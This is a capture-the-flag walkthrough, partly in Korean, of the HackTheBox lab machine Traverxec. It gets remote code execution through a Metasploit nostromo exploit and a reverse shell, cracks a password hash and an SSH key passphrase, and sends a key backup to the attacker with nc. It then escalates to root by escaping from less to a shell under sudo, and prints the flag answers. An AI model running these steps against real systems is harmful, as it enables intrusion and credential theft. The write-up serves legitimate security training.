# HackTheBox Walkthrough - Traverxec

**Machine Name**: Traverxec  
**Target IP**: 10.129.3.17  
**Difficulty**: Easy  
**Objective**: Exploit `nostromo 1.9.6` for remote code execution and escalate privileges to root.

---

## 🧭 Enumeration

### 🔍 Nmap Scan

```bash
nmap -sV -sC -oA nmap/Traverxec 10.129.3.17
```


**Results:**
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
80/tcp open  http    nostromo 1.9.6
```

> nostromo 1.9.6 웹 서버 취약점 존재

---

## ⚔️ Exploitation

### 🧨 Exploit nostromo 1.9.6 RCE


- Reference: [exploit-db: 47837](https://www.exploit-db.com/exploits/47837)
- Metasploit 사용

```bash
msfconsole
search nostromo
use exploit/multi/http/nostromo_code_exec
set RHOSTS 10.129.3.17
set LHOST 10.10.14.156
run
```


> www-data 권한의 리버스 셸 획득

---

## 🧪 Post Exploitation

### 🔐 .htpasswd 파일에서 해시 확인


```bash
cat /var/nostromo/conf/.htpasswd
```

**Hash**
```
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```

### 🔓 Hash Cracking

```bash
hashcat -m 500 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```


> **Password**: `Nowonly4me` (하지만 SSH 로그인 실패)

---

## 📂 SSH Private Key 획득

```bash
cat /var/nostromo/conf/nhttpd.conf
```


```
homedirs                /home
homedirs_public         public_www
```

```bash
ls -al /home/david/public_www/protected-file-area
```


```
backup-ssh-identity-files.tgz
```

### 📥 파일 다운로드 및 추출

```bash
nc -lvp 1234 > backup.tgz   # 공격자
nc 10.10.14.156 1234 < backup.tgz   # 타겟
tar -xvf backup.tgz
```



**파일 내역**: `/home/david/.ssh/id_rsa`

### 🧾 SSH 프라이빗 키 크랙

```bash
ssh2john id_rsa > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```


> **Passphrase**: `hunter`

```bash
ssh -i id_rsa david@10.129.3.17
```


✅ **david 유저 셸 획득**

---

## 🧑‍💻 User Flag

```bash
cat /home/david/user.txt
```


**Answer**: `7482a1ad8a5d9d3ca79b56af29cb9681`

---

## 🚀 Privilege Escalation

### 🔍 Sudo 권한 분석

`sudo -l`은 실패했지만 `/home/david/bin/server-stats.sh` 내에 `sudo journalctl` 명령 확인됨:

```bash
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```



### ⚠️ Exploit: GTFOBins - `less`

```bash
sudo journalctl -n5 -unostromo.service
```

- `less` 명령으로 실행됨
  

- `!sh` 입력으로 쉘 실행 가능

```bash
!sh
```


✅ **root 권한 획득**

---

## 👑 Root Flag

```bash
cat /root/root.txt
```


**Answer**: `99c4afb02ff822396f59b4ff250a4639`
